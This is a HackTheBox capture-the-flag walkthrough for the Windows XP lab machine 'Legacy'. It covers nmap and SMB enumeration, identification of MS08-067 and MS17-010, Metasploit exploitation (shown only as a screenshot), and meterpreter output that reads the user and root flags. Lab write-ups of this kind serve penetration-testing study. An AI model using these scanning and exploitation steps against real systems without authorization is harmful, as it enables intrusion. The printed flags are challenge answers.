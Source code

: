 ```yaml
---
title: HackTheBox - Legacy
date: 2021-01-05 17:58:12 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [htb-windows-easy, SMB, MS08-067, CVE-2008-4250, metasploit, meterpreter, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/Legacy.png
---
```


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Legacy-full-port-scan.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m10s, deviation: 1h24m51s, median: -4h56m10s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:67:71 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-05T13:28:59+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

The target is a **Windows XP** server running **SMB**.

### smb (ports 139 & 445)

```bash
$ smbclient -L //10.10.10.4/ -U '%' | tee services/139-smbclient.txt
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
$ smbmap -H $TARGET -R
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
$
```

### `nmap` scan vuln

```bash
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.4
```

![nmap vuln scan](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/nmap-vuln-scan.png)

Two critical vulnerabilities allowing remote code execution affect our target machine:

- **MS08-067** (`CVE-2008-4250`) 
- **MS17-010** (`CVE-2017-0143`) 

## Exploitation

Both of these vulns can be exploited through Metasploit modules.

### Metasploit (exploiting MS08-067)

![msf](https://amirr0r.github.io/assets/img/htb/machines/windows/easy/legacy/msf.png)

## SYSTEM user

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
```
___

## Useful links

- [CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [Microsoft Security Bulletin MS08-067 - Critical](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN)